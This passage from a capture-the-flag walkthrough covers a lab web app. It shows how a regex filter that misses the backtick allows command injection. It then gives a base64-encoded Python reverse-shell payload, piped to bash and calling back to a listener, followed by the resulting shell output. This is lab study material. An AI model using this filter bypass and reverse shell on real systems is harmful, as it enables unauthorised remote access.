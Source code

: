 Hmm... Let's take a look at the **regular expression** part:

**Filter:**
```
/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/
```

Looks like some special characters are missing!

**Missing special characters:**
```
"./<+-`
```

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection) talking about command injection, **if "\`" is allowed, we can execute arbitrary command with it!**

**Input:**
```
`ls`
```

**Output:**
```
api css dbConnect.php echo.php favicon.png imgs index.php jebait.html js login.html login.php logout.php logs README.md session2.php session.php 
```

We have **command injection**!! Let's get a reverse shell!

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nc -lnvp 13337
listening on [any] 13337 ...
```

- Next, we can use the **`base64` decode trick**: 

> Note: We `base64` the payload is because the filter. Please also note that the `base64` payload shouldn't contain the padding (`=`), as it's the part of the filter.

**Input:**
```
`echo "cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTguNjEuMTM0IiwxMzMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn" | base64 -d | bash`
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nc -lnvp 13337
[...]
daemon@labyrinth:/opt/lampp/htdocs$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
daemon
labyrinth
uid=1(daemon) gid=1(daemon) groups=1(daemon)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9d:55:2f:26:31 brd ff:ff:ff:ff:ff:ff
    inet 10.10.92.1/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:55ff:fe2f:2631/64 scope link 
       valid_lft forever preferred_lft forever
```
